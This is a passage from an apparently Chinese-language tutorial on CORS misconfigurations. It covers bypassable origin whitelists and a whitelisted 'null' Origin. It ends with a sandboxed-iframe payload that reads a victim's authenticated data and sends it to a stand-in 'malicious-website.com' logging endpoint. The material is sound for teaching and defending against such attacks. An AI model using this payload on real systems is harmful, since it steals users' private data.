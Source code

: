 我们得到这样的响应

```
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com
```

但是设置白名单还是会有问题，有的应用程序还允许访问请求源的子域。一般采取匹配前缀或后缀以及正则匹配的方式进行验证，这就很容易导致夹带恶意域进去，比如

```
normal-website.com
hackersnormal-website.com
normal-website.com.evil-user.net
```

### <a class="reference-link" name="%E8%A2%AB%E8%AE%A4%E4%B8%BA%E6%98%AF%E7%99%BD%E5%90%8D%E5%8D%95%E7%9A%84Origin%E5%80%BCnull"></a>被认为是白名单的Origin值null

Origin是支持null值的，有些情况下Origin值为null
- 跨站重定向
- 来自序列化数据的请求
- 使用file协议的请求
- 沙箱过的跨域请求
有的时候为了方便开发，会将null的Origin值加入白名单，例如

```
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```

然后的到这样的响应

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

攻击者可以构造上述四种会出现null的Origin值的场景以发动CORS攻击，例如

```
&lt;iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,&lt;script&gt;
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() `{`
location='malicious-website.com/log?key='+this.responseText;
`}`;
&lt;/script&gt;"&gt;&lt;/iframe&gt;
```

